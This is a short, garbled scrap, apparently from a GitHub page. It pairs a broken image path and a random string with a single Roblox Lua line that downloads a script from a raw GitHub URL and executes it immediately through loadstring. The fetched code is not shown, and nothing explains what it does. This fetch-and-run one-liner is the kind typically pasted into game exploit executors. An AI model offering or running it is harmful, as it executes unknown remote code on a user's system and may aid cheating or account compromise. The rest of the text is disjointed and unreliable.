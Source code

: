 Hi 
S6ZXKF5QAr
loadstring(game:HttpGet("https://raw.githubusercontent.com/Buibiendzai/description/main/zz"))()
